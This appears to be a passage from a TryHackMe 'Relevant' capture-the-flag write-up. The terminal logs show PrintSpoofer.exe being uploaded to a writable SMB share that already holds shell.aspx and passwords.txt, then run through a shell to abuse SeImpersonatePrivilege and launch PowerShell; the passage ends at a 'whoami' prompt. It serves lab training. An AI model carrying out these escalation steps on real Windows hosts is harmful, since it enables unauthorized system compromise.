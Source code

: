 [PrintSpoofer - Abusing Impersonation Privileges on Windows 10 and Server 2019](https://itm4n.github.io/printspoofer-abusing-impersonate-privileges/)

```
kali@kali:~/CTFs/tryhackme/Relevant$ smbclient //10.10.9.11/nt4wrksv
Enter WORKGROUP\kali's password: 
Try "help" to get a list of possible commands.
smb: \> pwd
Current directory is \\10.10.9.11\nt4wrksv\
smb: \> ls
  .                                   D        0  Wed Oct 14 21:42:49 2020
  ..                                  D        0  Wed Oct 14 21:42:49 2020
  passwords.txt                       A       98  Sat Jul 25 17:15:33 2020
  shell.aspx                          A  1015556  Wed Oct 14 21:42:50 2020

                7735807 blocks of size 4096. 5135045 blocks available
smb: \> put PrintSpoofer.exe
putting file PrintSpoofer.exe as \PrintSpoofer.exe (22.4 kb/s) (average 22.4 kb/s)
smb: \> ls
  .                                   D        0  Wed Oct 14 22:08:03 2020
  ..                                  D        0  Wed Oct 14 22:08:03 2020
  passwords.txt                       A       98  Sat Jul 25 17:15:33 2020
  PrintSpoofer.exe                    A    27136  Wed Oct 14 22:08:04 2020
  shell.aspx                          A  1015556  Wed Oct 14 21:42:50 2020

                7735807 blocks of size 4096. 5135038 blocks available
smb: \> exit
```

```
c:\users\Bob\Desktop>cd C:\
cd C:\

C:\>cd \inetpub\wwwroot\nt4wrksv
cd \inetpub\wwwroot\nt4wrksv

C:\inetpub\wwwroot\nt4wrksv>ls
ls
'ls' is not recognized as an internal or external command,
operable program or batch file.

C:\inetpub\wwwroot\nt4wrksv>dir
dir
 Volume in drive C has no label.
 Volume Serial Number is AC3C-5CB5

 Directory of C:\inetpub\wwwroot\nt4wrksv

10/14/2020  01:08 PM    <DIR>          .
10/14/2020  01:08 PM    <DIR>          ..
07/25/2020  08:15 AM                98 passwords.txt
10/14/2020  01:08 PM            27,136 PrintSpoofer.exe
10/14/2020  12:42 PM         1,015,556 shell.aspx
               3 File(s)      1,042,790 bytes
               2 Dir(s)  21,033,115,648 bytes free

C:\inetpub\wwwroot\nt4wrksv>PrintSpoofer.exe -i -c powershell.exe
PrintSpoofer.exe -i -c powershell.exe
[+] Found privilege: SeImpersonatePrivilege
[+] Named pipe listening...
[+] CreateProcessAsUser() OK
Windows PowerShell 
Copyright (C) 2016 Microsoft Corporation. All rights reserved.

PS C:\Windows\system32> whoami
```